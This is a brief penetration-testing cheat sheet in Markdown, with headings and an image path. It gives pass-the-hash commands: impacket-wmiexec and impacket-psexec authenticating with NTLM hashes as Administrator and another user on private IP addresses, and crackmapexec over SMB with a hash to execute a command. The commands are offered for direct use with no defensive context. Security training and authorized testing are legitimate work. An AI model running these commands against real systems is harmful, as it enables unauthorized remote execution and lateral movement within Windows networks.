 ## Utilize Impacket's WMIexec to authenticate with Hash  

```shell
/usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.186.73  
```

```shell
impacket-psexec -hashes 0:f0397ec5af49971f6efbdb07877046b3 beccy@172.16.72.240  
```

## Utilize crackmapexec  
```shell
crackmapexec smb 192.168.187.73 -u User -H HASHSHSHSHS -X "cmd"
```
